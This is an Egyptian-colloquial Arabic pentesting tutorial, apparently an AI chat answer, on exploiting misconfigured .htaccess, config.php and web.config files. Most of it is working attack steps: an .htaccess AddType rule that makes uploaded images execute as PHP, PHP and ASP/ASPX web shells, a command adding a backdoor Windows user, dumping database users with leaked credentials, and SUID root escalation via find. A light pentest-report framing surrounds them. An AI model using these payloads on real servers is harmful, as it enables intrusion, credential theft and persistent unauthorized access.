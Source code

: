 تمام، هشرح لك "Misconfigured .htaccess, config.php, web.config" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هي Misconfigured .htaccess, config.php, web.config؟**

#### **الشرح العميق:**
الثلاث ملفات دول هما ملفات إعدادات (Configuration Files) بتستخدم في تطبيقات الويب عشان تتحكم في إزاي السيرفر بيشتغل أو بيتصل بقاعدة البيانات. لما تكون "Misconfigured" (يعني معمولة غلط أو مضبوطة بشكل ضعيف)، بيحصل ثغرات أمنية كبيرة تسمح للمهاجم يستغلها. كل ملف ليه دوره:

- **.htaccess (في سيرفرات Apache):** ملف بيتحكم في إعدادات السيرفر زي مين يدخل، إيه اللي يتنفذ، أو إزاي يتعامل مع الطلبات. لو مضبوط غلط، ممكن يخلّي أي حد يشوف ملفات أو ينفذ أوامر.
- **config.php (في تطبيقات PHP):** ملف بيحتوي على بيانات زي اسم المستخدم وكلمة السر لقاعدة البيانات. لو متاح أو مكشوف، المهاجم يقدر يسرق البيانات دي.
- **web.config (في سيرفرات IIS/Windows):** ملف إعدادات لتطبيقات الويب على ويندوز. لو فيه خطأ، ممكن يسمح بتشغيل أكواد أو الوصول لمعلومات حساسة.

#### **الأدوات والأوامر العملية:**
1. **فحص .htaccess:**
   - لو دخلت سيرفر لينكس:
     - `ls -la /var/www/html/` -> لو لقيت `.htaccess`، افتحه:
     - `cat /var/www/html/.htaccess`.
   - لو فيه سطر زي `Allow from all` بدون قيود، يعني مفتوح للكل.

2. **فحص config.php:**
   - `find / -name config.php 2>/dev/null`.
   - لو لقيته (مثل `/var/www/html/config.php`):
     - `cat /var/www/html/config.php`.
   - لو فيه حاجة زي `$db_pass = "secret123";`، يبقى لقيت كنز.

3. **فحص web.config:**
   - في ويندوز:
     - `dir /s /b "C:\inetpub" | findstr "web.config"`.
     - افتحه: `type C:\inetpub\wwwroot\web.config`.
   - لو لقيت `<allow users="*">`، يعني الكل يقدر يدخل.

#### **خلاصة بالعامية المصرية:**
"يعني الملفات دي زي كتالوج البيت، لو كتبته غلط أو سايبه في الشارع، أي حد يعرف أسرارك! .htaccess زي البواب، config.php زي دفتر كلمات السر، وweb.config زي القوانين بتاعة العمارة."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
لما الملفات دي تكون مضبوطة غلط، بتفتح الباب للمهاجم يعمل حاجات زي:
- **سرقة بيانات:** لو config.php مكشوف، ياخد كلمات سر قاعدة البيانات.
- **تنفيذ أوامر:** لو .htaccess بيسمح بتنفيذ ملفات، يقدر يرفع shell.
- **تجاوز الحماية:** لو web.config مفتوح، يدخل أماكن المفروض ممنوعة.
في النهاية، الثغرات دي بتكون طريق سريع لتصعيد الصلاحيات أو تدمير النظام.

#### **الأدوات والأوامر العملية:**
1. **استغلال .htaccess:**
   - لو لقيت `.htaccess` بيسمح بتشغيل PHP في مجلد Uploads:
     - `echo "AddType application/x-httpd-php .jpg" > .htaccess`.
     - ارفع ملف `shell.jpg` بكود PHP: `<?php system($_GET['cmd']); ?>`.
     - افتح: `http://target.com/uploads/shell.jpg?cmd=id`.

2. **استغلال config.php:**
   - لو لقيت `/config.php` مكشوف:
     - افتح: `http://target.com/config.php`.
     - لو ظهر `$db_user = "root"; $db_pass = "pass123";`، استخدمها:
     - `mysql -u root -p` -> `pass123`.

3. **استغلال web.config:**
   - لو لقيت `<system.webServer><handlers>` يسمح بـ .asp:
     - ارفع ملف `shell.asp`: `<% Response.Write(CreateObject("WScript.Shell").Exec("cmd.exe /c whoami").StdOut.ReadAll()) %>`.
     - افتح: `http://target.com/shell.asp`.

#### **خلاصة بالعامية المصرية:**
"الملفات دي لما تبقى مضروبة، زي ما تكون سايب كشف حسابك البنكي في الشارع! المهاجم يلاقيها، ياخد كلمة السر، يرفع حاجة يلعب بيها، ويبقى هو الكبير بتاع الموقع."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الإعدادات الضعيفة دي عشان تاخد وصول أعلى أو تتحكم في السيرفر.
- **مثال واقعي:** لو .htaccess بيسمح بتعديل قواعد السيرفر، تضيف قاعدة تسمح لك ترجع shell.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي الملفات دي مضروبة، زي ما تكون لقيت خريطة الكنز! بتستغلها عشان تفتح الباب وتدخل تبقى الباشا بتاع الحتة."

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 (لينكس) أو IIS 10 (ويندوز).

#### **الخطوة 2: البحث عن الملفات**
- في لينكس:
  - `curl http://192.168.1.10/.htaccess` -> لو ظهر، اقراه.
  - `curl http://192.168.1.10/config.php` -> لو ظهر كود، ابحث عن بيانات.
- في ويندوز:
  - `curl http://192.168.1.10/web.config` -> لو مكشوف، اقراه.

#### **الخطوة 3: استغلال .htaccess**
- لو لقيت مجلد Uploads:
  - ارفع `.htaccess`: `echo "AddType application/x-httpd-php .png" > .htaccess`.
  - ارفع `shell.png`: `<?php system($_GET['cmd']); ?>`.
  - افتح: `http://192.168.1.10/uploads/shell.png?cmd=id` -> لو رجع `www-data`، نجحت.

#### **الخطوة 4: استغلال config.php**
- لو لقيت `http://192.168.1.10/config.php` مكشوف:
  - اقراه: `$db_user = "admin"; $db_pass = "secret123";`.
  - استخدمها:
    - `mysql -u admin -psecret123 -h 192.168.1.10`.
    - `SHOW DATABASES;` -> `USE db_name;` -> `SELECT * FROM users;`.

#### **الخطوة 5: استغلال web.config**
- لو لقيت `http://192.168.1.10/web.config` مكشوف:
  - ارفع `shell.aspx`: `<% System.Diagnostics.Process.Start("cmd.exe", "/c net user hacker pass123 /add"); %>`.
  - افتح: `http://192.168.1.10/shell.aspx` -> هيضيف مستخدم.

#### **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell (في لينكس):
  - `id` -> `www-data`.
  - `find / -perm -4000` -> لو لقيت SUID، استغله:
    - `/usr/bin/find . -exec /bin/bash \;` -> `id` -> `root`.
- في ويندوز:
  - `whoami` -> لو user، استخدم المستخدم الجديد لتسجيل الدخول.

#### **الخطوة 7: توثيق**
- سجل كل الملفات اللي لقيتها والثغرات.
- قدم تقرير يوري خطر الإعدادات الضعيفة.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت دفتر أسرار البيت، فتحته، لعبته فيه، وطلعت الكبير بتاع الموقع! الملفات دي لما تكون مضروبة، تبقى طريقك للفوز."

---

### **الخلاصة النهائية:**
Misconfigured .htaccess, config.php, وweb.config هما ثغرات كبيرة لأنهم بيكشفوا أسرار السيرفر أو بيسمحوا بتنفيذ أكواد. في الـ Pentesting، دور عليهم، استغلهم عشان تاخد shell أو تصعد صلاحياتك، ووري العميل إن نظامه زي بيت من غير قفل! بالأدوات زي curl وMetasploit، تقدر تكتشف وتستخدم الضعف ده عشان تبقى البطل بتاع اللعبة!